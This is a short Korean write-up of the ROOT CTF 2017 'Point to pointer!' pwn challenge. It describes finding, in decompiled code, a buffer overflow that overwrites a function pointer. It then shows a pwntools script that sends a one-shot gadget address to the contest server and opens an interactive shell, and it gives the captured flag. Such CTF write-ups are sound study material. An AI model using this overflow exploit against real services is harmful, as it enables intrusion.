



# ROOT CTF 2017 1st
## Overview
Point to pointer!

529

넘나 쉬운 문제 당신도 풀 수 있습니다!
nc 222.110.147.52:42632
Link

## Analyze

정말로 넘나 쉬웠...

먼저, 헥스레이로 열어서 소스를 분석해봐요!



소스를 보면 8바이트 int + 2 부분에다가 `sub_400796` 을 넣고 이 부분을 실행시킨 다음,

`저 BOF예요!!!!!!!!!!!!!!!@@!!!@!!@!!!!` 하고 온몸을 통해 외치는 read 함수를 통해 입력을 받고,

다시 하겠냐고 묻고 `Y` (ASCII로 89) 라면 한번 더 실행해요.

일단 (__int64 *)buf + 2 의 주소와 buf 의 주소 차이는 16 이네요..

그러므로 16바이트를 아무거나, 8바이트에 함수의 주소를 넣으면 되는데..



띠용 ㅋ 원샷 있네요.

감삼다 ㅎ



이제 이 주소 가지고 똭똭 해주면

```python
from pwn import *

p = remote("222.110.147.52", 42632)

print(p.recv())

p.sendline(p64(0x4007A7) * 5)

print(p.recv())

p.send("Y")

p.interactive()
```

요로코롬 코드가 탄생합니다!

이때는 계산하기 귀찮아서 그냥 주소 5번 때려쪄요 헤헷

## Flag


`FLAG{P0InT_2_pOiNt_2_PO1t3R!}`